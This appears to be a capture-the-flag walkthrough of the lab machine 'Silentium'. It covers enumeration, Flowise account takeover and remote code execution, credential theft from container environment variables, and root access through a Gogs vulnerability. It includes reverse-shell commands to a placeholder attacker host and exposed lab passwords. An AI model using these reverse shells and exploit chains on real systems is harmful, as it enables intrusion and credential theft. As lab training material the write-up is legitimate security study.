




Summary
Machine Overview
Silentium is an easy Linux machine where initial access is gained through a vulnerable Flowise instance via account takeover and RCE. Credentials exposed in a container allow SSH access to the host, and a vulnerable Gogs service running as root is exploited to achieve full system compromise.
Pentesting Process
Service Enumeration
The assessment begins with a comprehensive service enumeration using Nmap to identify exposed services and their versions.
nmap -sC -sV 10.129.70.219
The scan reveals two accessible services:
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://silentium.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The web server redirects traffic to the virtual host silentium.htb, which was added to the local
/etc/hosts file to enable proper interaction.
echo "10.129.70.219 silentium.htb" >> /etc/hosts
VHost Enumeration
We enumerate virtual hosts (vhosts) to identify additional exposed services.
ffuf -w /snap/seclists/current/Discovery/DNS/combined_subdomains.txt -u http://silentium.htb -H "Host: FUZZ.silentium.htb" -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.1.0
________________________________________________
:: Method : GET
:: URL : http://silentium.htb
:: Wordlist : FUZZ: subdomains-top1million-5000.txt
:: Header : Host: FUZZ.silentium.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403
:: Filter : Response size: 178
________________________________________________
staging [Status: 200, Size: 3142, Words: 789, Lines: 70]
We identified the virtual host staging.silentium.htb, which hosts Flowise platform.
Vulnerability Analysis
The server is running Flowise 3.0.5, which is vulnerable to:
- Account takeover (CVE-2025-58434)
- Remote Code Execution (CVE-2025-59528)
Account takeover (CVE-2025-58434)
To exploit this vulnerability, we need to know the user's email.
From the main website, we identify valid usernames:
- Marcus Thorne
- Ben
- Elena Rossi
We use these usernames to generate some email addresses that might be correct:
- marcus.thorne@silentium.htb
- ben@silentium.htb
- elena.rossi@silentium.htb
Using forgot-password endpoint mentioned in [1] we check the validity of these emails.
Ben's email is valid and we retrieved his tempToken, which will be used later to change Ben's password (the method mentioned also in [1])

Now we change Ben's password

After taking over Ben's account, we are going to use it to exploit the vulnerability (CVE-2025-59528)
Remote Code Execution (CVE-2025-59528)
A public exploit of this vulnerability is available on Exploit Database website [2].
python exploit.py --email ben@silentium.htb --password 'NewSecurePassword123!' --url http://staging.silentium.htb --c 'busybox nc <ATTACKER_IP> <ATTACKER_PORT> -e /bin/sh'
After exploiting this, we obtained a reverse shell in a container as root
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
Container lateral movement
We retrieve environment variables from the container.
env
FLOWISE_PASSWORD=F1l3_d0ck3r
HOSTNAME=c78c3cceb7ba
SENDER_EMAIL=ben@silentium.htb
SMTP_PASSWORD=r04D!!_R4ge
We used SMTP_PASSWORD to connect to Ben's account on the machine using SSH (valid credentials ben:r04D!!_R4ge).
Internal Enumeration
We discover an internal Gogs service running on port 3001 (staging-v2-code.dev.silentium.htb)
cat /etc/nginx/sites-enabled/staging-v2-code
server {
listen 80;
server_name staging-v2-code.dev.silentium.htb;
location / {
proxy_pass http://127.0.0.1:3001;
proxy_set_header Host $host;
proxy_set_header X-Real-IP $remote_addr;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
proxy_set_header X-Forwarded-Proto $scheme;
}
}
The service runs Gogs 0.13.3, which is vulnerable to a local execution of code (CVE-2025-8110)
Privilege escalation
The Gogs server is running as the root user, so by exploiting the vulnerability CVE-2025-8110 we can get a reverse shell as root.
A public available exploit is available on GitHub [3]
To use the exploit, we begin first by creating a new account and then generating an API key in the user's setting page.
python exploit2.py -u http://staging-v2-code.dev.silentium.htb -un <USERNAME> -pw <PASSWORD> -t <API_KEY> -lh <ATTACKER_IP> -lp <ATTACKER_IP>
After running the script, we obtain a reverse shell as root

Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade Flowise to version 3.0.6 or later
- Apply the security patch from [4] immediately
References
References
